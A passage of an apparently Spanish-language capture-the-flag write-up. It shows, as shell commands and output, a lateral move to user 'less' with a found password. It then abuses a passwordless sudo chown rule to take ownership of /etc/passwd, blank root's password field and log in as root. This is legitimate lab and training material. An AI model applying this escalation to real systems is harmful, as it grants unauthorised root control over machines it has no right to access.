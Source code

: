 Lo único que llama la atención es **Cristal_de_la_Aurora.** Probamos a usarlo para movernos a **less:**

```bash
root-false@64a2dd61671c:~$ su less
Password: 
less@64a2dd61671c:/home/root-false$
```

Vemos que puede ejecutar como **root**

```bash
less@64a2dd61671c:~$ sudo -l
Matching Defaults entries for less on 64a2dd61671c:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User less may run the following commands on 64a2dd61671c:
    (ALL : ALL) NOPASSWD: /bin/chown
```

# Escalada de privilegios

Vamos a cambiar los permisos al fichero `/etc/passwd` para que sea propiedad de **less**:

```bash
less@64a2dd61671c:~$ sudo chown less:less /etc/passwd
```

Después editamos el fichero. Borramos la **x** que esta entre root y 0.

```bash
less@64a2dd61671c:~$ nano /etc/passwd
# Antes
root:x:0:0:root:/root:/bin/bash

# Después
root::0:0:root:/root:/bin/bash
```

Y con ese cambio nos podemos logear como root sin contraseña.

```bash
less@64a2dd61671c:~$ su
root@64a2dd61671c:/home/less# id
uid=0(root) gid=0(root) groups=0(root)
root@64a2dd61671c:/home/less#
```